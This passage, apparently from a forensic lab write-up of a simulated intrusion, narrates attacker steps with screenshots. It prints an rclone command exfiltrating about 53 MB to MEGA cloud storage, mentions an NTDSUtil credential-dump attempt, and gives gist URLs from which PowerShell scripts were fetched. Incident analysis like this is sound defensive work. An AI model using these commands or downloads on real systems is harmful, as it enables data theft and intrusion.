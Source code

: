 ![alt text](..\assets\2025-07-29-the_dfir_report_202504\collect_hr_finance_data.png)

The attacker then downloaded rclone along with a pre-configured rclone config file from the same host. Using the following command:

```C:\Users\Public\rclone+config\rclone.exe copy C:\ProgramData\Teams mega:V1A```

The attacker successfully exfiltrated approximately 53 MB of data, including the teams-starktech.zip file.

![alt text](..\assets\2025-07-29-the_dfir_report_202504\mega_command.png)

![alt text](..\assets\2025-07-29-the_dfir_report_202504\zeek_exfilate.png)

After exfiltrating data from Files5, the attacker returned to DC1 and attempted to execute NTDSUtil to dump NTDS information. In a prior attempt, the attacker tried to obfuscate the cmd command used to run NTDSUtil, but the attempt failed due to incorrect argument parsing.

![alt text](..\assets\2025-07-29-the_dfir_report_202504\ntds.png)

The attacker then created a Deploy shared folder on DC1, mapping it to the local C:\ProgramData\Deploy directory.

![alt text](..\assets\2025-07-29-the_dfir_report_202504\craete_share.png)

The attacker then downloaded the script.ps1 file from the following URL: https://gist.githubusercontent.com/tsale/3be988cf096738185e29fafdec7b55b6/raw/dfae10d172004781e6e94bf6a39a79691b32b2c3/script.ps1. This file was saved to C:\ProgramData\Deploy\script.ps1 on DC1. Additionally, the attacker downloaded the crypto.psm1 module from 
https://gist.githubusercontent.com/tsale/a8ece812c4dde3c9dad91a5d6c09b247/raw/b0549df22b18828414f8e6f29c07b6354a00c851/crypto.psm1. 
This module was saved using the same method and saved in same directory.

![alt text](..\assets\2025-07-29-the_dfir_report_202504\download_scriptps1.png)

```